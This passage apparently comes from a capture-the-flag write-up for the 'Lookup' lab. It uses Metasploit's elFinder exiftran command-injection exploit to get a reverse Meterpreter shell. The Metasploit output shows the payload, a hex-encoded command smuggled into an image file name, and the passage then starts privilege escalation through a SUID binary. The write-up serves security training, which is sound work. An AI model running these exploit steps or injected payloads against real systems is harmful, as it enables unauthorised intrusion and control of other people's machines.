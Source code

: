 ```console
Shellcodes: No Results
Papers: No Results
```

 In this case we are going to use the Metasploit exploit to get a shell on the machine

```console
┌──(kali㉿kali)-[~/Lookup]
└─$ msfconsole
msf6 > use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection
msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > set RHOST 10.10.38.13
msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > set VHOST files.lookup.thm
msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > set LHOST 10.6.48.82
msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > run

[*] Started reverse TCP handler on 10.6.48.82:4444 
[*] Uploading payload 'eQfr3B5.jpg;echo 6370202e2e2f66696c65732f655166723342352e6a70672a6563686f2a202e4976764b68757469462e706870 |xxd -r -p |sh& #.jpg' (1987 bytes)
[*] Triggering vulnerability via image rotation ...
[*] Executing payload (/elFinder/php/.IvvKhutiF.php) ...
[*] Sending stage (40004 bytes) to 10.10.238.252
[+] Deleted .IvvKhutiF.php
[*] Meterpreter session 1 opened (10.6.48.82:4444 -> 10.10.238.252:33622) at 2025-01-04 13:11:50 -0500
[*] No reply
[*] Removing uploaded file ...
[+] Deleted uploaded file

meterpreter > shell
Process 1008 created.
Channel 0 created.

whoami
www-data
```

## Privilege Escalation

### www-data to think

When we look at the suid binaries on the machine we find one, `/usr/sbin/pwm`, that stands out as a custom binary

```console
find / -perm -u=s -type f 2>/dev/null
............
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/sbin/pwm
/usr/bin/at
/usr/bin/fusermount
............

/usr/sbin/pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: www-data
[-] File /home/www-data/.passwords not found
```
